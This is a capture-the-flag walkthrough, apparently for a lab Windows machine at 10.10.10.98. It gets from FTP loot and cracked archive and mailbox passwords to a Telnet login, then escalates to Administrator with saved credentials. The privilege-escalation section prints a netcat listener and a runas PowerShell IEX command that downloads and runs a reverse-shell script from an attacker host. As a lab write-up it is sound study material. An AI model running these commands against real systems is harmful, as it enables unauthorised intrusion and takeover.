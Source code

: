 ![](./logo.png)

# USER
By scanning the machine it was evident that a FTP port was open. On it was a zip file.

Unzipping a Password Protected File and Error: unsupported compression method 99

```
Requires "p7zip"
```

Tried cracking using john the ripper

```
zip2john <file.zip> > hash.txt
john --format=zip hash.txt
```

Found that using TRACE on a HTTP server can lead to Cross-Site Tracing attacks XST

```
But NMAP was wrong, the HTTP server rejects TRACE commands
```

Found a password to the zip file in the backup.mdb by usings strings

Found a tool called "readpst"

Converted the file to mbox and found details:

```
john@megacorp.com
security@accesscontrolsystems.com

4Cc3ssC0ntr0ller
```

Trying the different permutations give login:

```
security
4Cc3ssC0ntr0ller
```

On the 10.10.10.98 Telnet server. This provides access to the command line


# ROOT

CMDKEY shows the saved credenials of a user

This means, I think we can use the

```
runas \savecred"
```

Command to run root commands

By running a reverse shell as the admin, we could get priv esc


You need a web server for the payload download

```
python2 -m SimpleHttpServer
```

The listener for the reverse shell

```
nc -lvnp <PORT IN THE SCRIPT>
```


And the command run on the user to download the shell

```
powershell IEX (New-Object Net.WebClient).DownloadString('http://<ip_of_SimpleHttpServer/rv.ps1')
```

In total the command below ran the shell as admin

```
runas /savecred /user:ACCESS\Administrator "powershell IEX (New-Object Net.WebClient).DownloadString('http://10.10.14.16/rv.ps1')"
```

This provided us with a root shell
